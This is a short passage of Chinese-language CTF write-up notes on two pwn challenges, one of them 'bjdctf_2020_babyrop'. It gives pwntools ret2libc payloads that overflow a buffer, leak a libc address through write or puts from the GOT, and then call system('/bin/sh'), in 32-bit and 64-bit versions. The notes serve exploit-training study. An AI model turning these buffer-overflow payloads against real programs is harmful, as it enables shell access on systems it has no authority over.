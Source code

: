 简单32位rop，没有`system("/bin/sh")`，需要泄露libc

```python
payload_a = b'a'*0x8c + p32(elf.plt['write']) + p32(elf.symbols['vulnerable_function']) + p32(1) + p32(elf.got['write']) + p32(4)
payload_b = b'a'*0x8c + p32(system) + p32(0) + p32(bin_sh)
```

## bjdctf_2020_babyrop

[铁人三项(第五赛区)_2018_rop](#铁人三项(第五赛区)_2018_rop)的64位版

```python
pop_rdi_ret = next(elf.search(asm('pop rdi\nret')))
payload_a = b'a'*0x28 + p64(pop_rdi_ret) + p64(elf.got['puts']) + p64(elf.plt['puts']) + p64(elf.symbols['vuln'])
payload_b = b'a'*0x28 + p64(pop_rdi_ret) + p64(bin_sh) + p64(system)
```
